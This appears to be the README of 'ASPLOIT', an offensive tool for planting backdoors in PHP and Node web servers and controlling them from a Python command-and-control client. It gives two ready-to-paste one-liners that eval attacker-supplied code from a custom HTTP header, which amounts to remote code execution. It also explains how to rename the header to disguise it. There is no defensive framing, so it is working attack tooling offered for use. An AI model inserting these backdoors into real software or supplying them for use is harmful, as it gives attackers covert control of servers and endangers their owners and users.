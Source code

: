 # ASPLOIT
This tool allows you to deploy and exploit backdoors with one line of code in Node and PHP servers.

# Backdoor
## PHP
Add the following line of PHP to the top of the endpoint you want to have the backdoor
```
isset($_SERVER["HTTP_EXPLOIT"]) and eval($_SERVER["HTTP_EXPLOIT"]);
```
## Node
Add the following line to the endpoint you want to have the backdoor
```
if (req.headers?.exploit) return (eval('let r=res;let i=req;'+req.headers?.exploit));
```
Replace `res` with the `ServerResponse` parameter name, and replace `req` with the `IncomingRequest` parameter name.
## Notes
Any area where `EXPLOIT` or `exploit` is referenced can be replaced with any custom HTTP header (eg. for PHP, `HTTP_EXPLOIT` -> `HTTP_ANYTHINGYOUWANT`).

# Client
## Command and Controller
The C2 runs on Python. To start, run `main.py` in the `src` folder.

# Creating Custom Backdoors/Exploits
Coming soon.

# Thank You
This repository was inspired by [PHPSPLOIT](https://github.com/nil0x42/phpsploit).